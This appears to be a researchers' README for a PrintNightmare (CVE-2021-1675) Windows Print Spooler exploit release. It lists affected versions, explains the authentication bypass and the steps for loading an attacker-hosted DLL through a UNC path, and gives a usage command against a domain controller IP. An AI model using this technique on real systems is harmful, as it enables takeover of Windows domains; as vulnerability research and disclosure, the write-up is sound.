 ## CVE-2021-1675 Windows Print Spooler Remote Code Execution Vulnerabilities Versions

    Windows Server 2019 (Server Core installation)
    Windows Server 2019
    Windows Server 2016 (Server Core installation)
    Windows Server 2016
    Windows Server 2012 R2 (Server Core installation)
    Windows Server 2012 R2
    Windows Server 2012 (Server Core installation)
    Windows Server 2012
    Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)
    Windows Server 2008 R2 for x64-based Systems Service Pack 1
    Windows Server 2008 for x64-based Systems Service Pack 2 (Server Core installation)
    Windows Server 2008 for x64-based Systems Service Pack 2
    Windows Server 2008 for 32-bit Systems Service Pack 2 (Server Core installation)
    Windows Server 2008 for 32-bit Systems Service Pack 2
    Windows Server, version 2004 (Server Core installation)
    Windows RT 8.1
    Windows 8.1 for x64-based systems
    Windows 8.1 for 32-bit systems
    Windows 7 for x64-based Systems Service Pack 1
    Windows 7 for 32-bit Systems Service Pack 1
    Windows 10 Version 1607 for x64-based Systems
    Windows 10 Version 1607 for 32-bit Systems
    Windows 10 for x64-based Systems
    Windows 10 for 32-bit Systems
    Windows Server, version 20H2 (Server Core Installation)
    Windows 10 Version 20H2 for ARM64-based Systems
    Windows 10 Version 20H2 for 32-bit Systems
    Windows 10 Version 20H2 for x64-based Systems
    Windows 10 Version 2004 for x64-based Systems
    Windows 10 Version 2004 for ARM64-based Systems
    Windows 10 Version 2004 for 32-bit Systems
    Windows 10 Version 21H1 for 32-bit Systems
    Windows 10 Version 21H1 for ARM64-based Systems
    Windows 10 Version 21H1 for x64-based Systems
    Windows 10 Version 1909 for ARM64-based Systems
    Windows 10 Version 1909 for x64-based Systems
    Windows 10 Version 1909 for 32-bit Systems
    Windows 10 Version 1809 for ARM64-based Systems
    Windows 10 Version 1809 for x64-based Systems
    Windows 10 Version 1809 for 32-bit Systems


## PrintNightmare (CVE-2021-1675): Remote code execution in Windows Spooler Service

 

Ten years ago, an escalation of privilege bug in Windows Printer Spooler was used in Stuxnet, which is a notorious worm that destroyed the nuclear enrichment centrifuges of Iran and infected more than 45000 networks. In the past ten years, spooler still has an endless stream of vulnerabilities disclosed, some of which are not known to the world, however, they are hidden bombs that could lead to disasters. Therefore, we have focused on spooler over the past months and reaped fruitfully.

 

The beginning of the research is PrintDemon from which we get inspiration. After digging into this bug deeper, we found a way to bypass the patch of MS. But just after MS released the new version, we immediately found a new way to exploit it again. After the story of PrintDemon, we realized that spooler is still a good attack surface, although security researchers have hunted for bugs in spooler for more than ten years. We started to explore the inner working of Printer Spooler and discovered some 0-day Bugs in it. Some of them are more powerful than PrintDemon and easier to exploit, and the others can be triggered from remote which could lead to remote code execution.

 

CVE-2021-1675 is a remote code execution in Windows Print Spooler. According to MSRC security bullion, this vulnerability is reported by Zhipeng Huo, Piotr Madej and Zhang Yunhai. 

We also found this bug before and hope to keep it secret to participate Tianfu Cup ☹. As there are some people already published exploit video of CVE-2021-1675. Here we publish our writeup and exploit for CVE-2021-1675. 

 

For more RCE and LPE vulnerabilities in Windows Spooler, please stay tuned and wait our Blackhat talks ‘Diving Into Spooler: Discovering LPE and RCE Vulnerabilities in Windows Printer‘. 

 

 

## RpcAddPrinterDriver

Adding a Printer Driver to a Server (RpcAddPrinterDriver)

Let check the MS-RPRN: Print System Remote Protocol about the RpcAddPrinterDriver call.

To add or update a printer driver ("OEM Printer Driver") to a print server ("CORPSERV"), a client ("TESTCLT") performs the following steps.

1. The client can use the RPC call RpcAddPrinterDriver to add a driver to the print server.

2. The client ensures that the files for the printer driver are in a location accessible to the server. For that purpose, the client can share a local directory containing the files, or use [MS-SMB] to place the files into a directory on the server

3. The client then allocates and populates a DRIVER_INFO_2 structure as follows:

   pName = L"OEM Printer Driver";

   pEnvironment = L"Windows NT x86"; /* Environment the driver is compatible with */

   pDriverPath = "\\\\CORPSERV\\C$\\DRIVERSTAGING\\OEMDRV.DLL";315 / 415

   [MS-RPRN] - v20200826

   Print System Remote Protocol

   Copyright © 2020 Microsoft Corporation

   Release: August 26, 2020

   pDataFile = "\\\\CORPSERV\\C$\\DRIVERSTAGING\\OEMDATA.DLL";

   pConfigFile = "\\\\CORPSERV\\C$\\DRIVERSTAGING\\OEMUI.DLL";

4. The client allocates a DRIVER_CONTAINER driverContainer structure and initializes it to contain the DRIVER_INFO_2 structure.

5. The client calls RpcAddPrinterDriver.

   RpcAddPrinterDriver( L"\\\\CORPSERV", &driverContainer );

 

## CVE-2021-1675 Analysis

Clearly, if an attacker can bypass the authentication of RpcAddPrinterDriver. He could install an malicious driver in the print server. In msdn, the client need SeLoadDriverPrivilege to call the RPC. However, this isn’t true. Let check the authentication logical here:

![img](./img/rootcause.png)

ValidateObjectAccess is a normal security check for Spooler Service. But in line 19 and 20, argument a4 is user controllable. So, a normal user can bypass the security check and add an driver. If you are in the domain, a normal domain user can connect to the Spooler service in the DC and install a driver into the DC. Then he can fully control the Domain.

 

## Exploit

But the real attack is not that simple. To exploit the authentication bypass bug, we need to understand what the Spooler service will do when you calling RpcAddPrinterDriver. Suppose you supply there path to the service

​	pDataFile =A.dll

​	pConfigFile =\\attackerip\\Evil.dll

​	pDriverPath=C.dll

 

It will copy A,B and C into folder C:\Windows\System32\spool\drivers\x64\3\new. And then it will copy them to C:\Windows\System32\spool\drivers\x64\3, and load C:\Windows\System32\spool\drivers\x64\3\A.dll and C:\Windows\System32\spool\drivers\x64\3\C.dll into the Spooler service. However, in the latest version, Spooler will check to make sure that A and C is not a UNC path. But as B can be an UNC path, so we can set pConfigFile as an UNC path (an evildll). This will make our evildll Evil.dll be copied into C:\Windows\System32\spool\drivers\x64\3\ Evil.dll. Then call RpcAddPrinterDriver again, to set pDataFile to be C:\Windows\System32\spool\drivers\x64\3\ Evil.dll. It will load our evil dll. Unfortunate, it does not work. Because if you set A, B, C in the folder C:\Windows\System32\spool\drivers\x64\3\. There will be an access conflict in file copy. To bypass this, we need to use the backup feature of driver upgrade. If we upgrade some driver, the old version will be backup into C:\Windows\System32\spool\drivers\x64\3\old\1\ folder. Then we can bypass the access conflict and success inject our evil.dll into spooler service. 

Successfully load our dll:

 ## Usage



```
.\PrintNightmare.exe dc_ip path_to_exp user_name password

Example:
.\PrintNightmare.exe 192.168.5.129 \\192.168.5.197\test\MyExploit.dll user2 test123##
```

 ![img](./img/Result.png)

 ![img](./img/logfile.png)
Tested on windows sever 2019 1809 17763.1518




## Impact

This vulnerability can be used to achieve LPE and RCE. As for the RCE part, you need a user to authenticated on the Spooler service. However, this is still critical in Domain environment. Because normally DC will have Spooler service enable, a compromised domain user may use this vulnerability to control the DC.

 

Here are more hidden bombs in Spooler, which is not public known. We will share more RCE and LPE vulnerabilities in Windows Spooler, please stay tuned and wait our Blackhat talks ‘Diving Into Spooler: Discovering LPE and RCE Vulnerabilities in Windows Printer‘. 

 

## Credit

Zhiniang Peng (@edwardzpeng) & Xuefeng Li (@lxf02942370)
